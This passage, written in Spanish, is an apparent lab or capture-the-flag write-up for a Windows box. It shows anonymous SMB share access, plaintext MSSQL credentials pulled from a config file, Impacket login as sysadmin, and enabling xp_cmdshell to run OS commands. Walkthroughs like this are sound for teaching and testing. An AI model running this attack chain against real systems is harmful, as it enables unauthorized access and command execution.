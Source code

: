 
## Fase 2: Acceso Inicial y Explotación de Malas Configuraciones
El recurso `backups` se convirtió en el punto de entrada inicial.

**Acciones Realizadas:**

* *Acceso al Recurso:* Se conectó al recurso `backups` y se listó su contenido.
    ```bash
    smbclient -N \\\\<TARGET_IP>\\backups
    smb: \> dir
    ```
* **Hallazgo Crítico:** Se encontró un archivo `prod.dtsConfig`. Los archivos de configuración son siempre un objetivo de alta prioridad.
* **Recolección de Credenciales:** Al descargar (`get prod.dtsConfig`) e inspeccionar el archivo, se encontraron credenciales de la base de datos MSSQL en texto plano.
    ```xml
    <ConfiguredValue>
        Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;...
    </ConfiguredValue>
    ```
* **Usuario:** `ARCHETYPE\sql_svc`
* **Contraseña:** `M3g4c0rp123`

---

## Fase 3: Pivote y Ejecución de Comandos vía MSSQL
Con las credenciales, el siguiente paso fue pivotar desde el acceso a la base de datos hacia la ejecución de comandos en el sistema operativo.

**Acciones Realizadas:**

* *Autenticación en MSSQL:* Se usó el script `mssqlclient.py` de la suite Impacket para autenticarse en el servidor.
    ```bash
    python3 mssqlclient.py ARCHETYPE/sql_svc@<TARGET_IP> -windows-auth
    ```
* *Verificación de Privilegios:* Se comprobó si el usuario tenía privilegios de administrador en la base de datos.
    ```sql
    SQL> SELECT is_srvrolemember('sysadmin');
    ```
    El resultado (`1`) confirmó que `sql_svc` era **`sysadmin`**, un fallo de seguridad crítico que viola el principio de mínimo privilegio.

* *Habilitación de `xp_cmdshell`:* Esta potente stored procedure, que permite ejecutar comandos del sistema operativo, estaba deshabilitada por defecto. Se habilitó con los siguientes comandos:
    ```sql
    SQL> EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
    SQL> EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
    ```
* *Confirmación de Ejecución de Comandos:*
    ```sql
    SQL> xp_cmdshell "whoami"
    ```
    La salida `archetype\sql_svc` confirmó el éxito.

---